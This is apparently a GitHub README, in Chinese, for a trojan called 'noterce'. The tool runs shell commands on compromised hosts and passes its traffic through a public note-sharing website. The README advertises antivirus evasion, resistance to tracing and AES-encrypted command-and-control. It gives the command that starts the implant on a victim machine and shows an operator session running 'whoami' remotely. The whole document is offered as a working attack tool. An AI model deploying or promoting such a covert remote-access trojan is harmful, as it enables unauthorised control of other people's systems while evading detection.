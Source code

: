 # noterce
一种另辟蹊径的免杀执行系统命令的木马,通过https“公开笔记”网站来交互通信交互


## 优缺点

优点:
- 免杀
- 有效避免被溯源
- AES加密

缺点:
- 运行慢(命令执行需要等待30秒后才返回结果)
- 功能少

## 使用
client为控制端
server为被控制端


1. 在被控端运行被控端
- 被控端运行命令 key参数制定notekey admin参数执行主控 ：
./server --key notekey --admin ocis

2. 控制端刷新在线主机列表


```shell
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]


1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)
```


3.控制端执行命令
```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)


2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```


```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)


2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

